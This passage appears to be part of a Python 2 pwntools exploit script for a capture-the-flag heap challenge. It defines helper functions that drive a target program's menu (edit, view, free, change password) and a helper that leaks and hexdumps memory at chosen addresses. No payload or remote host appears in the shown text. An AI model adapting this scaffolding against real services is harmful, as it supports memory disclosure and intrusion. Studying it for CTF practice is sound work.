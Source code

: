 ```python
	if last: return

	recv = p.recv()
	if DEBUG: print recv

	p.sendline(msg)
	recv = p.recv()
	if DEBUG: print recv
	return recv

def fn_edit(msg):
	p.sendline("2")
	recv = p.recv()
	if DEBUG: print recv

	p.send(msg)
	recv = p.recv()
	if DEBUG: print recv
	return recv

def fn_view(idx):
	p.sendline("3")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(idx))
	recv = p.recv()
	if DEBUG: print recv
	return recv

def fn_free(idx, last=False):
	p.sendline("4")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(idx))
	if last: return

	recv = p.recv()
	if DEBUG: print recv
	return recv

def fn_chg_pw(pw, name, new_pw):
	p.sendline("5")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(pw)
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(name)
	recv = p.recv()
	if DEBUG: print recv

	p.send(new_pw)
	recv = p.recv()
	if DEBUG: print recv

def fn_leak(addr, n, title=""):
	print "*** {} ***".format(title)
	print hexdump(p.leak(addr, n))
	print
```